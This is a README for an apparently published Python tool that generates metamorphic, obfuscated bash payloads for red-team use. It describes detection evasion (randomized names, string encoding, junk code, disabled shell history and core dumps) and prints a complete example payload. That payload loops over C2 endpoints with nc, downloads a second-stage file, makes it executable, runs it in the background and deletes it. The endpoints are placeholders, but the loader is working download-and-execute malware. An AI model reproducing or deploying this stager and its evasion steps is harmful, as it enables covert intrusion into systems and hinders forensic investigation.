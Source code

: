 # Metabash Payload Generator

## Overview

This project is a **metamorphic Linux payload generator** written in Python. It creates highly obfuscated, variable, and evasive bash payloads for red team, research, and educational purposes.

## How It Works

The payload generator leverages several advanced techniques to produce unique, evasive bash payloads on every run:

- **Metamorphic Code Generation:**
  - Every payload is constructed with randomized variable and function names, using a mix of ASCII and Unicode characters, to evade static analysis and signature-based detection.
  - The order and content of code blocks (e.g., junk code, evasion, network logic) are shuffled and injected with random junk code, making each payload structurally unique.

- **Obfuscation Techniques:**
  - Strings and integers are obfuscated using multiple methods (base64, hex, split, XOR, etc.), making it difficult to extract meaningful information through simple inspection.
  - Junk code (random variables, functions, comments, and data structures) is inserted throughout the payload to further hinder analysis and increase entropy.

- **Linux-Specific Evasion:**
  - Payloads include random Linux evasion techniques, such as disabling core dumps, clearing environment variables, disabling shell history, and clearing the terminal.
  - These techniques help the payload avoid detection and forensic analysis on target systems.

- **Network Callback Logic:**
  - Each payload contains logic to connect to a random Command & Control (C2) endpoint from a configurable list (using generic examples by default).
  - Upon successful connection, the payload attempts to receive a secondary payload, saves it to a temporary file, makes it executable, and runs it in the background.
  - The payload cleans up after itself by deleting temporary files and can retry connections with randomized sleep intervals.

- **Helper Functions:**
  - The generated bash scripts include helper functions for encoding/decoding (base64, hex, rot13, unicode, binary) and network operations (connection checks, data transfer, cleanup).

- **Self-Containment:**
  - All generated payloads are fully self-contained and require no external dependencies beyond standard Linux utilities (bash, nc, xxd, base64, etc.).

## Diagrams and Examples

### Payload Generation Flow

```
┌─────────────────┐     ┌─────────────────┐     ┌─────────────────┐
│                 │     │                 │     │                 │
│  Input Config   │────▶│  Generate Code  │────▶│  Write Payload  │
│                 │     │                 │     │                 │
└─────────────────┘     └─────────────────┘     └─────────────────┘
```

### Example Payload Structure

```
#!/bin/bash
set -e

# Evasion Techniques
ulimit -c 0
unset HISTFILE
unset HISTSIZE
unset HISTFILESIZE
unset HISTCONTROL
unset HISTIGNORE
set +m
clear
set +o history

# Helper Functions
function str_to_bytes() {
    echo -n "$1" | xxd -p
}

function to_base64() {
    echo -n "$1" | base64
}

function from_base64() {
    echo -n "$1" | base64 -d
}

function to_hex() {
    echo -n "$1" | xxd -p
}

function from_hex() {
    echo -n "$1" | xxd -r -p
}

function rot13() {
    echo "$1" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
}

function to_unicode() {
    echo -n "$1" | xxd -p | sed 's/\(..\)/\\\\u00\\1/g'
}

function from_unicode() {
    echo -n "$1" | sed 's/\\\\u00\(..\)/\\1/g' | xxd -r -p
}

function to_binary() {
    echo -n "$1" | xxd -b | cut -d' ' -f2-7 | tr -d ' '
}

function from_binary() {
    echo "$1" | sed 's/\(........\)/\\1 /g' | tr -d ' ' | perl -lpe '$_=pack("B*",$_)'
}

# Network Operations
while true; do
    for endpoint in "example.com:4444" "example.com:9000" "example.com:1337" "192.0.2.1:4444" "192.0.2.1:9000" "192.0.2.1:1337"; do
        host="${endpoint%%:*}"
        port="${endpoint##*:}"
        
        # Try to connect
        if nc -z -w 5 "$host" "$port" 2>/dev/null; then
            # Create temporary file
            buffer=$(mktemp)
            
            # Receive data
            if nc -w 10 "$host" "$port" > "$buffer" 2>/dev/null; then
                # Check if we got any data
                if [ -s "$buffer" ]; then
                    # Make executable and run
                    chmod +x "$buffer"
                    "$buffer" &
                    # Wait a bit to ensure it started
                    sleep 2
                    # Clean up
                    rm -f "$buffer"
                fi
            fi
        fi
    done
    # Random sleep between attempts
    sleep $((RANDOM % 30 + 10))
done
```

### Example Output

Running the generator produces a unique payload file, e.g., `payload_20250517_205214_6BK6sfSE.sh`, with randomized variable names, obfuscated strings, and shuffled code blocks.

## Features
- Generates unique, obfuscated bash payloads each run
- Implements Linux-specific evasion techniques
- Morphs variable and function names for each payload
- Obfuscates strings and integers in multiple ways
- Adds random junk code for metamorphism
- Network callback: payloads attempt to connect to random C2 endpoints (now generic example endpoints for public release)
- Helper functions for encoding/decoding and network operations
- Fully self-contained, no external dependencies required for generated payloads

## Usage

1. **Clone the repository:**
   ```bash
   git clone https://github.com/yourusername/metabash.git
   cd metabash
   ```
2. **Generate a payload:**
   ```bash
   python3 payload_generator.py
   ```
   This will create a new, unique bash payload script (e.g., `payload_YYYYMMDD_HHMMSS_xxxxxxxx.sh`).

3. **Test the payload:**
   ```bash
   bash payload_YYYYMMDD_HHMMSS_xxxxxxxx.sh
   ```

4. **Batch generate multiple payloads:**
   ```bash
   for i in {1..10}; do python3 payload_generator.py; done
   ```

## File Structure
- `payload_generator.py` — Main Python script for generating payloads
- `payload_*.sh` — Generated bash payloads
- `README.md` — This documentation

## Disclaimer

**This tool is for educational and authorized red team use only.**
- Do not use this tool on systems you do not own or have explicit permission to test.
- The authors are not responsible for any misuse or damage caused by this tool.

## License
MIT 